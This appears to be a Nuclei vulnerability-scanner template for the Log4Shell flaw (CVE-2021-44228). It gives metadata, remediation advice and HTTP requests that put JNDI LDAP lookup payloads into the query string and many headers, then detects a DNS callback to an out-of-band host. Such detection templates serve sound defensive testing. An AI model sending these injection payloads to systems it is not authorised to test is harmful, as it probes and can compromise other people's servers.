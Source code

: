 ```
info:
  id: CVE-2021-44228
  name: Apache Log4j2 Remote Code Injection
  author: melbadry9,dhiyaneshDK,daffainfo,anon-artist,0xceba,Tea
  severity: critical
  description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
  remediation: Upgrade to Log4j 2.3.1 (for Java 6), 2.12.3 (for Java 7), or 2.17.0 (for Java 8 and later).
  reference:
    - https://logging.apache.org/log4j/2.x/security.html
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228
    - https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
    - https://www.lunasec.io/docs/blog/log4j-zero-day/
    - https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
  tags: cve,cve2021,rce,oast,log4j,injection
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.00
    cve-id: CVE-2021-44228
    cwe-id: CWE-502

requests:
  - request:
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
        Accept: ${jndi:ldap://${hostName}.accept.{{interactsh-url}}}
        Accept-Encoding: ${jndi:ldap://${hostName}.acceptencoding.{{interactsh-url}}}
        Accept-Language: ${jndi:ldap://${hostName}.acceptlanguage.{{interactsh-url}}}
        Access-Control-Request-Headers: ${jndi:ldap://${hostName}.accesscontrolrequestheaders.{{interactsh-url}}}
        Access-Control-Request-Method: ${jndi:ldap://${hostName}.accesscontrolrequestmethod.{{interactsh-url}}}
        Authentication: Basic ${jndi:ldap://${hostName}.authenticationbasic.{{interactsh-url}}}
        Authentication: Bearer ${jndi:ldap://${hostName}.authenticationbearer.{{interactsh-url}}}
        Cookie: ${jndi:ldap://${hostName}.cookiename.{{interactsh-url}}}=${jndi:ldap://${hostName}.cookievalue.{{interactsh-url}}}
        Location: ${jndi:ldap://${hostName}.location.{{interactsh-url}}}
        Origin: ${jndi:ldap://${hostName}.origin.{{interactsh-url}}}
        Referer: ${jndi:ldap://${hostName}.referer.{{interactsh-url}}}
        Upgrade-Insecure-Requests: ${jndi:ldap://${hostName}.upgradeinsecurerequests.{{interactsh-url}}}
        User-Agent: ${jndi:ldap://${hostName}.useragent.{{interactsh-url}}}
        X-Api-Version: ${jndi:ldap://${hostName}.xapiversion.{{interactsh-url}}}
        X-CSRF-Token: ${jndi:ldap://${hostName}.xcsrftoken.{{interactsh-url}}}
        X-Druid-Comment: ${jndi:ldap://${hostName}.xdruidcomment.{{interactsh-url}}}
        X-Forwarded-For: ${jndi:ldap://${hostName}.xforwardedfor.{{interactsh-url}}}
        X-Origin: ${jndi:ldap://${hostName}.xorigin.{{interactsh-url}}}
        Content-Type: application/json
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"

```